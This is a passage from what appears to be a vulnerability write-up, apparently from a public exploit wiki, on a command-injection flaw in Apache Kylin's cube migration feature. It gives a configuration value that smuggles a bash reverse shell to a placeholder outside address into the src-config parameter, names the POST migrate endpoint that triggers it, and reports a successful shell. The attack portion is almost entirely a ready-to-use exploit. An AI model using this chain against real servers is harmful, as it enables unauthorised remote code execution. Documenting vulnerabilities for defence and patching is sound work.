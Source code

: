 ```java {17}
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

From this we can find that we can execute any command we need through these two controllable parameters, such as bounce a shell, and set the configuration as

```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
kylin.tool.auto-migrate-cube.dest-config=shell
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/kylin-15.png)

Send `POST` request again `/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/kylin-16.png)

Successfully rebounded a shell

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/kylin-14.png)
